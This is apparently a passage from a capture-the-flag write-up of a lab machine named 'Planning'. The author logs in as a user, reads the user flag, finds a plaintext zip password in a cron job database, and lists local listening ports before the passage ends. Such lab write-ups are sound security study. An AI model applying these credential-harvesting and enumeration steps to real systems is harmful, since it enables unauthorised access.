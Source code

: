 ```zsh


Expanded Security Maintenance for Applications is not enabled.

102 updates can be applied immediately.
77 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Last login: Thu Sep 25 21:29:36 2025 from 10.10.16.3
enzo@planning:~$
```

I obtain the flag.
```zsh
enzo@planning:~$ ls
user.txt
enzo@planning:~$ cat user.txt 
983d0ecec255f317d3ae5822167428f5
```

## Privilege Escalation

After exploring the file system, I found the file `contra.db` in `/opt/crontabs`. I see that the Docker image `root_grafana` is being saved as root and that the password `P4ssw0rdS0pRi0T3c` is displayed in the command. I now have new credentials that may be useful later on.
```zsh
enzo@planning:/opt/crontabs$ ls
crontab.db
enzo@planning:/opt/crontabs$ cat crontab.db 
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```

I list all connections and listening ports.
```zsh
enzo@planning:~$ netstat -tulnp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                         
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
```